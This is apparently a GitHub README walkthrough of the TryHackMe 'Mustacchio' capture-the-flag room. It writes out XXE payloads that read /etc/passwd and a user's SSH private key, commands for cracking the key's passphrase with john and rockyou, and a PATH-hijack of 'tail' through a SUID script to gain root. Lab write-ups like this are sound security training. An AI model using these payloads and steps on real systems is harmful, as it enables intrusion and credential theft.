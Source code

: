 # Mustacchio CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Mustacchio** CTF challenge on [TryHackMe](https://tryhackme.com/room/mustacchio). 
---
scanning for open ports

![scan](img/scan.png "scan")

checking hidden directories with feroxbuster

![ferox](img/ferox.png "ferox")

decided to check `/custom/js` and found users.bak sqlite3 database file 

![custom](img/custom.png "custom")

![sql](img/sql.png "sql")

found login credentials for `admin`, we need to crack the hash, i used crackstation

![crack](img/crack.png "crack")

login form on port `8765` 

![admin](img/admin.png "admin")

after using admin credentials, we can find 2 clue inside source code

![barryhint](img/barryhint.png "barryhint")

```
<!-- Barry, you can now SSH in using your key!-->
```
```
//document.cookie = "Example=/auth/dontforget.bak"; 
```

i started testing comment form

![xml](img/xml.png "xml")

the request in burpsuite

![xmltest](img/xmltest.png "xmltest")

the data is sent as xml parameter so i will test for XXE (XML eXternal entity)

i grabbed the code from portswigger website and have to slightly modify it to our needs

testing XXE with /etc/passwd

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>

```

![passwd](img/passwd.png "passwd")

we have access to /etc/passwd

we know about a ssh key so modify the xml parameter to grab it

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```
![rsa](img/rsa.png "rsa")

![pass](img/pass.png "pass")

there is a passphrase so i will try to crack it with john

```
/usr/bin/ssh2john barrykey > hash.txt
```

![ssh2john](img/ssh2john.png "ssh2john")

now

```
john --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](img/john.png "john")

we got a passphrase

now logging as barry and grabbing user flag

![user](img/user.png "user")

ran a few commands to check for PE factor and found something interesting while checking SUID files

```
find / -perm -4000 2>/dev/null
```

found `/home/joe/live_log` sript

![suid](img/suid.png "suid")

checked for strings in this file

![strings](img/strings.png "strings")

script uses tail command so if we could create our own tail command we would gain root access

```
$ mkdir /tmp/tail
$ cd /tmp/tail && touch tail
$ echo "/bin/bash" > tail
$ chmod +x tail
$ export PATH=/tmp/tail:$PATH
```

![faketail](img/faketail.png "faketail")

now we just run `/home/joe/live_log` sript

we got root access and can grab root flag

![root](img/root.png "root")

## MACHINE PWNED
